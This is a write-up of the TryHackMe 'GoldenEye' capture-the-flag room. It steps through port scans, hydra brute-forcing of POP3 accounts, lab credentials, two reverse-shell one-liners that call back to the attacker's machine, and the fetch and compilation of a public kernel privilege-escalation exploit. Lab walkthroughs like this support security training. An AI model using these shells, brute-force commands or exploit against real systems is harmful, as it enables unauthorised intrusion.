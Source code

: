 # GoldenEye

**Room Link:** [https://tryhackme.com/room/goldeneye](https://tryhackme.com/room/goldeneye)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find a encoded password and also a potential other user, Natalya.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can login to /sev-home now



```
Username: boris
Password: InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/55007 - POP3

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
telnet $VICTIM 55007
USER natalya
PASS bird
RETR 1
RETR 2
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

New password still doesn't work but maybe can be used elsewhere.

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS secret1!
RETR 1
RETR 2
RETR 3
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>





Added severnaya-station.com to my hosts file and then navigated to http://severnaya-station.com/gnocertdir as mentioned in the email

```
username: xenia
password: RCP90rulez!
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```



**Kali**

```
telnet $VICTIM 55007
USER doak
PASS goat
RETR 1
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
exiftool for-007.jpg 
echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d 
```

<figure><img src="../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>



It was the password for admin

```
Username: admin
Password: xWinter1995x!
```



## **Initial Shell**

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
sh -c '(sleep 4062|telnet $KALI 4444|while : ; do sh && break; done 2>&1|telnet $KALI 4444 >/dev/null 2>&1 &)'
```

<figure><img src="../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

It kind of worked but the shell kept breaking so I switched it to a python one and did the same thing.

**Kali**

<pre><code><strong>nc -lvnp 4444
</strong></code></pre>

**Browser**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

<figure><img src="../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### Privlege Escalation

Just changed below line from gcc to cc as gcc is not installed on the host

**Kali**

```
wget https://www.exploit-db.com/raw/37292 -O ofs.c 
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp/
wget http://$KALI:81/ofs.c 
id
cc ofs.c -o ofs
./ofs
id
whoami
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

